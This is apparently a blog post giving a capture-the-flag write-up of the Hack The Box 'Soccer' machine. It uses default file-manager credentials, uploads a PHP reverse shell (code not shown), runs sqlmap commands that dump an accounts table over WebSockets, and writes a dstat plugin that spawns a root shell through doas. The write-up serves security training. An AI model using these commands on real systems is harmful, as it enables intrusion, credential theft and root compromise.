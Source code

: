 ```yaml
---
layout: post
title:  "Soccer - An HTB easy machine"
date:   2024-12-1 18:36:56 +0200
categories: ctf
---
```


[Link to target](https://app.hackthebox.com/machines/Soccer)

# Capture the Flag (CTF) Write-Up: Soccer.htb

## Table of Contents
1. [Initial Enumeration](#initial-enumeration)
    - [Nmap Scan](#nmap-scan)
    - [Key Findings](#key-findings)
2. [Enumeration and Exploitation](#enumeration-and-exploitation)
    - [Discovering Tiny File Manager](#discovering-tiny-file-manager)
    - [Exploiting Tiny File Manager](#exploiting-tiny-file-manager)
    - [Uploading Reverse Shell](#uploading-reverse-shell)
3. [Post-Exploitation](#post-exploitation)
    - [Discovering Virtual Host](#discovering-virtual-host)
    - [Analyzing New Web Application](#analyzing-new-web-application)
    - [SQL Injection via WebSockets](#sql-injection-via-websockets)
4. [Privilege Escalation](#privilege-escalation)
    - [Analyzing SUID Programs](#analyzing-suid-programs)
    - [Exploiting dstat with Custom Plugin](#exploiting-dstat-with-custom-plugin)
5. [Conclusion](#conclusion)

---

## Initial Enumeration

### Nmap Scan
I started with an **Nmap** scan to identify open ports and services.

```bash
nmap -sV -sC -oN nmap.txt 10.10.11.194
PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.5
80/tcp   open  http            nginx 1.18.0 (Ubuntu)
9091/tcp open  xmltec-xmlmail?
```

### Key Findings
- **HTTP Server:** Accessible at `http://soccer.htb/`.
- **SSH Service:** Running OpenSSH 8.2p1.
- **Unusual Service:** Port 9091 showing potential custom functionality.

## Enumeration and Exploitation

### Discovering Tiny File Manager
Using directory brute-forcing tools like **ffuf**, I discovered a Tiny File Manager instance:
![c53a8d623285f69236b32da30a688f2e.png](/assets/soccer/c53a8d623285f69236b32da30a688f2e.png)

- **URL:** `http://soccer.htb/tiny/`
- **Version:** 2.4.3 (retrieved from source code comments).

### Exploiting Tiny File Manager
After searching online, I found the **default credentials** for Tiny File Manager:
![f4769880423d6a33128b411a1d1f8b99.png](/assets/soccer/f4769880423d6a33128b411a1d1f8b99.png)

- **Username:** admin
- **Password:** admin@123

Using these credentials, I logged into the file manager successfully.

![40de08c94e1e4f29f3499f9c9d2e19a9.png](/assets/soccer/40de08c94e1e4f29f3499f9c9d2e19a9.png)

### Uploading Reverse Shell
I noticed that the **uploads** directory had write permissions. I created a **PHP reverse shell** and uploaded it through the file manager.

With the shell uploaded, I accessed it to gain an initial foothold on the server.

## Post-Exploitation

### Discovering Virtual Host
While enumerating **nginx configuration files**, I identified a virtual host configuration pointing to a secondary application.

- **Virtual Host:** `soc-player.soccer.htb`

![330e5a73c7b25874da1de52f56ce540e.png](/assets/soccer/330e5a73c7b25874da1de52f56ce540e.png)

### Analyzing New Web Application

![6c162e98c432ccc61690e5ac3e7bc21a.png](/assets/soccer/6c162e98c432ccc61690e5ac3e7bc21a.png)

The new application presented a **login page**. After creating an account, I observed that it utilized **WebSocket requests** to handle input.
![122d210b22013cdb7766a86709b209b2.png](/assets/soccer/122d210b22013cdb7766a86709b209b2.png)
- Example WebSocket request:
    ```json
    {"id":"text"}
    ```

### SQL Injection via WebSockets
Using **sqlmap**, I tested for SQL injection in the WebSocket endpoint:
![2bcbaee8db9a1f86659de7a561c7f398.png](/assets/soccer/2bcbaee8db9a1f86659de7a561c7f398.png)
```bash
sqlmap -u "ws://soc-player.soccer.htb:9091" --data '{"id": "*"}' --dbs --threads 10 --level 5 --risk 3 --batch
```
Results:
```
back-end DBMS: MySQL >= 5.0.12
available databases [5]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] soccer_db
[*] sys
```

Dumping the accounts table from soccer_db:
```
sqlmap -u "ws://soc-player.soccer.htb:9091" --data '{"id": "*"}' -D soccer_db -T accounts --dump --threads 10 --level 5 --risk 3 --batch
```
```
| id   | email             | password   | username |
+------+-------------------+----------------------+----------+
| 1324 | player@player.htb | *REDACTED* | player   |
+------+-------------------+----------------------+----------+
```

## Privilege Escalation

### Analyzing SUID Programs
After logging into SSH with the `player` credentials, I searched for SUID programs. I discovered that `doas` was configured to allow the `player` user to run `dstat` as root.

**Configuration:**
```plaintext
permit nopass player as root cmd /usr/bin/dstat
```

### Exploiting dstat with Custom Plugin
Using the information from [GTFOBins](https://gtfobins.github.io/gtfobins/dstat/), I created a custom plugin to execute arbitrary commands:

1. Create the plugin:
    ```python
    echo 'import os; os.execv("/bin/sh", ["sh"])' > /usr/local/share/dstat/dstat_xxx.py
    ```

2. Execute `dstat` with the plugin:
    ```bash
    doas -u root /usr/bin/dstat --xxx
    ```

**Result:** I obtained a root shell!

![7d0c72c6cb4604ec17358cecafa3afc9.png](/assets/soccer/7d0c72c6cb4604ec17358cecafa3afc9.png)
## Conclusion
This CTF demonstrated various techniques and highlighted critical vulnerabilities in system and application security:

- **Enumeration:** Identified services and applications using tools like Nmap and ffuf.
- **Exploitation:** Gained access via default credentials on Tiny File Manager and exploited SQL injection vulnerabilities in WebSocket endpoints.
- **Post-Exploitation:** Used the initial foothold to uncover misconfigurations in the system, such as virtual host information and database credentials.
- **Privilege Escalation:** Leveraged a misconfigured `doas` command to exploit the `dstat` program with a custom plugin and escalate privileges to root.

This challenge underscored the importance of:
1. Properly securing web applications (e.g., avoid default credentials).
2. Validating inputs to prevent SQL injection.
3. Configuring SUID programs and privilege escalation paths securely.

In the end, I successfully obtained root access, completing the challenge.
